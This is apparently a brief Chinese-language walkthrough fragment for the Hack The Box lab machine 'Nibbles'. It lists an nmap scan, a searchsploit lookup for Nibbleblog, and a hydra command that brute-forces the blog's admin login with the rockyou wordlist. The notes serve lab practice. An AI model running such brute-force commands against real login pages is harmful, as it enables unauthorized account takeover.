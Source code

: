 

# Nibbles

``` 
nmap -sC -sV -oA nmap/nibbles 10.10.10.75
```

> 10.10.10.75/nibbleblog   

得知这是nibbleblog
``` 
searchsploit nibbleblog

hydra -l admin -P rockyou.txt http://10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

```
